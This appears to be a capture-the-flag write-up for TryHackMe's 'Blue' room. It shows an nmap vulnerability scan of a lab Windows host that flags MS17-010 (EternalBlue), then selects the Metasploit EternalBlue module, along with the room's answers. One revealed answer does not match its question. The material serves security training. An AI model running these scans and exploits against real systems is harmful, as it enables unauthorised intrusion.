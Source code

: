 ```yaml
---
tags: [tryhackme, exploit, easy]
categories: [tryhackme, exploit, easy]
icon: chevron-right
author: Ivo Muijtjens
date: 2022-05-26
---
```

![](/static/headers/blue.png)

# Blue

Deploy & hack into a Windows machine, leveraging common misconfigurations issues. The Blue CTF is an easy box based on the EternalBlue vulnerability [CVE-2017-0143](https://nvd.nist.gov/vuln/detail/CVE-2017-0143). As preparation for this room, I recommend following the Windows Exploration Basics path to get familair with the commands:

[!ref target="blank" text="Windows Fundamentals 1" icon="../static/icons/fundamentals1.png"](https://tryhackme.com/room/windowsfundamentals1xbx)
[!ref target="blank" text="Windows Fundamentals 2" icon="../static/icons/fundamentals2.png"](https://tryhackme.com/room/windowsfundamentals2x0x)
[!ref target="blank" text="Active Directory Basics" icon="../static/icons/activedirectory.png"](https://tryhackme.com/room/activedirectorybasics)
[!ref target="blank" text="Metasploit: Introduction" icon="../static/icons/metasploit.png"](https://tryhackme.com/room/metasploitintro)
[!ref target="blank" text="Metasploit: Exploitation" icon="../static/icons/metasploit.png"](https://tryhackme.com/room/metasploitexploitation)
[!ref target="blank" text="Metasploit: Meterpreter" icon="../static/icons/metasploit.png"](https://tryhackme.com/room/meterpreter)

---

# Writeup

### Reconnaissance

**How many ports are open with a port number under 1000?**

To answer this question I used nmap to scan for open ports and vulnerabilities.

    nmap -sV -p 1-999 --script vuln 10.10.209.54

`-sV` enumerate versions

`-p 1-999` scan all ports under 1000

`--script vuln` argument to scan vulnerabilities

    Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-26 11:10 EDT
    Nmap scan report for 10.10.209.54
    Host is up (0.028s latency).
    Not shown: 996 closed tcp ports (conn-refused)
    PORT    STATE SERVICE      VERSION
    135/tcp open  msrpc        Microsoft Windows RPC
    139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
    445/tcp open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
    Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

    Host script results:
    |_smb-vuln-ms10-054: false
    |_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
    |_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
    | smb-vuln-ms17-010: 
    |   VULNERABLE:
    |   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
    |     State: VULNERABLE
    |     IDs:  CVE:CVE-2017-0143
    |     Risk factor: HIGH
    |       A critical remote code execution vulnerability exists in Microsoft SMBv1
    |        servers (ms17-010).
    |           
    |     Disclosure date: 2017-03-14
    |     References:
    |       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
    |       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
    |_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 23.25 seconds

==- Reveal Answer
3
===

**What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)**

Review the nmap output for the answer to this question.

==- Reveal Answer
ms17-010
===

### Gain Access

**Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)**

Start Metasploit with the `msfconsole` command in your terminal. Once Metasploit Framework is initialized, we can search the vulnaribility with command: `search ms17-010`.

    Matching Modules
    ================

    #  Name                                      Disclosure Date  Rank     Check  Description
    -  ----                                      ---------------  ----     -----  -----------
    0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
    1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
    2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
    3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
    4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution

In this case I'm interested in the EternalBlue exploit. Use the command `use 0` to select the exploit. You can also use the full name of the exploit with command `use exploit/windows/smb/ms17_010_eternalblue`.

==- Reveal Answer
3
===